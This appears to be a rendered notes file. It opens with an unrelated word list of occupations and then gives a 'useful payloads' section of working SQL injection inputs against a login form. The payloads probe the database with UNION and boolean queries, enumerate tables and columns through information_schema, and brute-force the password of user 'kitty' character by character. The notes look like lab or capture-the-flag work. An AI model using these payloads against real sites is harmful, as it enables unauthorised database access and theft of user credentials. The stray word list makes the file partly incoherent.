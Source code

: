 ```txt
therapist
counselor
socialworker
advocate
activist
volunteer
donor
sponsor
donor
sponsor
coach

```


### USEFUL PAYLOADS

```sql
username=hello&password=asdfasdf'+AND+(SELECT+1)=1+--+

username=hello&password=qwerty'+AND+EXISTS+(SELECT+1+FROM+information_schema.tables)+--+

username=hello&password=a'+UNION+SELECT+null,null,null,null+--+ 

-- To be able to select things like current_setting('server_version') (since this gives an error i suppose the correct type is mysql)

username=hello'+AND+database()+LIKE+'_'+--+-&password=a   

-- To get the lenght of the database name 

username=hello'+AND+database()+LIKE+'mywebsite'+--+-&password=a 

username=admin&password=asdfasd'+UNION+SELECT+null,null,null,null+FROM+information_schema.tables+WHERE+table_schema+=+'mywebsite'+AND+table_name+LIKE+'s%'+--+ 

-- Can also be done with the last one and an exists

username=admin&password=asdfasd'+UNION+SELECT+null,null,null,null+FROM+information_schema.tables+WHERE+table_schema+=+'mywebsite'+AND+table_name+LIKE+'siteusers'+--+ 

-- Now we have the name of the table we are dealing with i guess


username=admin&password=asdfasd'+UNION+SELECT+null,null,null,null+FROM+information_schema.columns+WHERE+table_schema+=+'mywebsite'+AND+table_name+LIKE+'siteusers'+AND+column_name+LIKE+'password'+--+ 

-- Repeat the same for the others and you get the columns of the table.

username=hello'+AND+EXISTS+(SELECT+*+FROM+siteusers+WHERE+username+LIKE+'%')+--+;&password=a

username=hello'+AND+EXISTS+(SELECT+*+FROM+siteusers+WHERE+username+LIKE+'kitty'+AND+BINARY+password+LIKE+'%')+--+;&password=a

-- BINARY TO AVOID CASE INSENSITIVITY (FOUND IT OUT THE HARD WAY)

username=hello'+AND+EXISTS+(SELECT+*+FROM+siteusers+WHERE+username+LIKE+'kitty'+AND+BINARY+password+LIKE+'L\§§%'+ESCAPE+'\')+--+;&password=a

-- The final one used to brute force the password, escaped so characters are not treated in a special way
```
